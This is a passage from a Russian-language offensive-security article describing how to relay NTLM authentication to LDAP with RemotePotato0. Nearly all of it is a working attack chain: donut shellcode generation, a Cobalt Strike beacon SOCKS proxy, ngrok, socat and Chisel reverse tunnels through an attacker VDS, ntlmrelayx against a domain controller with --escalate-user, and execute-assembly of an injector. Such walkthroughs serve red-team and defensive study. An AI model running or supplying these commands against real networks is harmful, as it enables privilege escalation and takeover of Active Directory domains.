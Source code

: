 Тем временем на VDS
{:.quote}

Но и это не предел наших возможностей – таким же способом можно зарелеить аутентификацию на LDAP. Для начала перегенерим шеллкод с нужными нам аргументами (изменим режим в `-m` и добавим адрес VDS в `-r`).

```
~$ ./donut -i RemotePotato0.exe -b=1 -t -p '-m 0 -r <VDS_IP> -x <VDS_IP> -p 9998 -s <SESSION_ID>' -o RemotePotato0.bin
```


К сожалению, в бесплатной версии ngrok-а не получится одновременно поднять второй канал, поэтому я воспользуюсь [Chisel](https://github.com/jpillora/chisel) для перенаправления HTTP-трафла. Откровенно говоря, можно было и первый редирект настроить через chisel, и не юзать ngrok вообще, но ладно.

Мы подробно рассматривали Chisel, когда решали одну из тачек на Hack The Box: https://xakep.ru/2020/02/17/htb-reddish/.

```
beacon(1)> socks 1080
(ATTACKER) ~$ ngrok tcp 136
(VDS) ~$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:<NGROK_IP>:<NGROK_PORT>
(VDS) ~$ sudo ./chisel server -p 8000 --reverse --auth <USER>:<PASS>
(ATTACKER) ~$ ./chisel client --auth <USER>:<PASS> <VDS_IP>:8000 R:80:127.0.0.1:8080
(ATTACKER) ~$ sudo proxychains4 -q socat -v TCP-LISTEN:136,fork,reuseaddr TCP:<VICTIM_INTERNAL_IP>:9998
(ATTACKER) ~$ sudo proxychains4 -q ntlmrelayx.py -t ldap://<DC_INTERNAL_IP> --http-port 8080 --no-smb-server --no-wcf-server --no-raw-server --escalate-user <PWNED_USER>
beacon(2)> execute-assembly RemotePotato0Inject.exe
```

[![Релеим HTTP через Chisel](/assets/images/remote-potato-0/cs-remotepotato0-relay.png)](/assets/images/remote-potato-0/cs-remotepotato0-relay.png)
{:.center-image}
